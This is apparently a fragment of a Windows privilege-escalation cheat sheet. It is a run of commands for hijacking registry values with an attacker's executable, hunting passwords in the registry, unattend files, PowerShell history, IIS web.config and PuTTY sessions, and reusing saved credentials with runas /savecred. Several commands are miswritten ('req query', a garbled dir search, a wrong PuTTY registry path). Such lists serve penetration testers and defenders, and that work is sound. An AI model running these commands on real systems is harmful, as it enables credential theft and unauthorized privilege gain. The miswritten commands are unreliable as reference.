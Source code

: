 ```c
C:\> req query <REGISTRY_KEY>
```

**Modify Registry Key**

```c
C:\> reg add <REGISTRY_KEY> /v <VALUE_TO_MODIFY> /t REG_EXPAND_SZ /d C:\PATH\TO\FILE\<FILE>.exe /f
```

**Search the Registry for Passwords**

```c
C:\> req query HKLM /f password /t REG_SZ /s
C:\> req query HKCU /f password /t REG_SZ /s
```

#### Searching for Credentials

**Unattended Windows Installations**

**Potential Files containing Passwords**

```c
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

**Search for Passwords**

```c
C:\> dir .s *pass* == *.config
C:\> findstr /si password *.xml *.ini *.txt
```

**PowerShell History**

```c
C:\> type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Saved Windows Credentials**

```c
C:\> cmdkey /list
C:\> runas /savecred /user:<USERNAME> cmd.exe
```

**IIS Configuration**

```c
C:\> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

**PuTTY**

```c
C:\> reg query HKEY_CURRENT_USER\Software\<USERNAME>\PuTTY\Sessions\ /f "Proxy" /s
```
